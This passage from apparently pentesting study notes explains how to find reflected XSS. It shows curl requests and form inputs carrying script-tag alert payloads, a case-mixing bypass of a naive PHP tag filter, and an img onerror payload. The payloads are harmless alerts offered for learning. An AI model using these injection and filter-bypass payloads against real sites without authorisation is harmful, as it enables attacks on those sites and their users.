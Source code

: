 * When a parameter is sent in a query of the URL or a formulary, and this value is shown on the page content

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash">#We do a petition and the site returns "Hello" in any part of the HTML
curl http://$url/?msg=$value 
# Then we could try to inject code
<strong>curl http://url/?msg=&#x3C;script>alert("HACKED")&#x3C;/script>
</strong>
#Or when we insert a value in a form and the site returns it in any part of the HTML, we could fill the form with code to inject
&#x3C;script>alert("HACKED")&#x3C;/script>
</code></pre>

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered.

{% code title="Example source code" %}
```php
...
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
...
```
{% endcode %}

This could be bypassed by using capital letters on the tag values or using other symbols to evade filtering.

{% code overflow="wrap" lineNumbers="true" %}
```bash
<sCrIpT>alert("HACKED")</script>
<s|script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
If that still doesn't work, we can use a `img` tag, and then put a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert JS Code.

<pre class="language-bash"><code class="lang-bash"><strong>&#x3C;img src=x onerror='alert("HACKED")'/>
</strong></code></pre>
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Stored</mark>
